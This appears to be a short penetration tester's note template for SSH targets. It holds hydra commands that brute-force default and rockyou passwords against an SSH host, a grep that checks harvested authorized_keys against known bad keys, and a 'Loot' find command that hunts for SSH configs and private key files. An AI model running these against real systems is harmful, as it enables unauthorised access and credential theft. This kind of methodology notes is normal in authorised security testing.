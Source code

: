 <% tp.file.rename("1_SSH_")%>

- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
$auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```

#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://$hip$ -V -t 4 -I -s 22
```


# Findings

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```